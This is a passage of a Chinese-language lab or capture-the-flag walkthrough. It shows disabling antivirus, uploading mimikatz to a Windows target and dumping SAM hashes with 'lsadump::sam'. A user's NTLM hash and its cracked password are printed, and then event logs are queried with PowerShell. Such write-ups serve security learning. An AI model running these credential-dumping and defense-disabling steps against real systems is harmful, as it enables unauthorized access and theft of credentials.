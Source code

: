 这里利用 mimikatz 工具进行提取密匙...

mimikatz 是用来学习 Windows 安全实验的工具.... 可以从内存中提取纯文本密码，哈希，PIN 码和 kerberos 凭证等等...mimikatz 还可以执行哈希传递，凭证传递或构建 Golden 凭证...

https://github.com/gentilkiwi/mimikatz   -- 下载地址

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KO5w5PP77QvqK1esfc6stpXk9cSuqWR0Axuwg1ddRJeHia5W14QeWarL5gdvKxCCJfhufws8IyiaXCA/640?wx_fmt=png)

这里开了防病毒模块，禁用了即可，前面运行的时候无法运行发现的...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KO5w5PP77QvqK1esfc6stpXhvQ94EBtKxvaHia3ZvkZTSe7OOicmJNAajh01H4a5iaIvicXCdhLecUlcw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KO5w5PP77QvqK1esfc6stpXgLT6zgfnhaNicJPO9kyMxBGHytWdJQ6fQBAGdF50bZIVZLKTpWEoAAA/640?wx_fmt=png)

```
https://github.com/gentilkiwi/mimikatz/releases/tag/2.2.0-20200308
```

下载好后开启服务上传即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KO5w5PP77QvqK1esfc6stpXicxcrgAWBOwguXiaQKuw2H12PrWc7CTaElIemT2JNRncGJv79pDoGGGw/640?wx_fmt=png)

成功上传...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KO5w5PP77QvqK1esfc6stpXTcOsULn6Rlb6hKfaa3bW4vzRoK9F3Ex2Z1RkV3mA8DAtOsdOicWCicug/640?wx_fmt=png)

检查可以正常运行...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KO5w5PP77QvqK1esfc6stpX74Lu9jnoc37Se2vTyYeJJ6vtjXxsa0kb4zx0Bft4maQppe5KXibp8QA/640?wx_fmt=png)

```
.\mimikatz.exe "lsadump::sam" "exit"
```

通过 mimikatz 查询到了所有日志文件里的哈希值...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KO5w5PP77QvqK1esfc6stpXJBPu2dxKGv83q2fURe1c4wE0tq9lFBj5QRp0LG7Cm9ao7xv6VYYF1A/640?wx_fmt=png)

这里只有 zachary：eef285f4c800bcd1ae1e84c371eeb282 可以破解 NTLM 值...0987654321

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KO5w5PP77QvqK1esfc6stpXSmX1bh704ySFW81kGRTRKzicvmVb0ZibysVNSkEdHt41ztrlT6B1C5Zg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KO5w5PP77QvqK1esfc6stpXKSDJ3zXTjBvrzcX7zqXa80ibTsV1MDaES0erN9yO8RxddvTsFRE77FQ/640?wx_fmt=png)

上传 ps1 需要用于查询密匙...

```
https://github.com/RamblingCookieMonster/PowerShell/blob/master/Get-WinEventData.ps1
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KO5w5PP77QvqK1esfc6stpXooo3cubQql5Icf1t81sIVibq0gXznfymWkkicZB8vk9jEx1nLXatDZ5Q/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KO5w5PP77QvqK1esfc6stpXKVvKI4mkrhTyKBcmylY0qgibPXIB3ogYmwiaKSe59AIdpSxlBrTtIlow/640?wx_fmt=png)

```
Get-WinEvent -FilterHashtable @{Logname='security';id=4688} -MaxEvents 1 | Get-WinEventData | fl *
```
